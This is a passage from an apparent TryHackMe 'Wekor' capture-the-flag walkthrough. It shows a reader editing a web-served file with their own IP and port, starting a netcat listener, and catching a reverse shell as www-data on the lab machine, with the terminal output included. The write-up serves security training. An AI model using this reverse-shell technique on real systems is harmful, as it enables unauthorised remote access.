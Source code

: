 ![Untitled](/assets/Wekor%20images/Untitled%2014.png)

Remember to change the `$ip` and the `$port` to your own local machine. Then click on **Update File**:

![Untitled](/assets/Wekor%20images/Untitled%2015.png)

Start a listener on local machine and route the **Uncategorized** link detected earlier:

```
┌──(kali㉿kali)-[~/TryHackMe/wekor]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.201.102] 60694
Linux osboxes 4.15.0-132-generic #136~16.04.1-Ubuntu SMP Tue Jan 12 18:18:45 UTC 2021 i686 i686 i686 GNU/Linux
 09:02:26 up 15 min,  0 users,  load average: 5.16, 3.61, 1.99
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
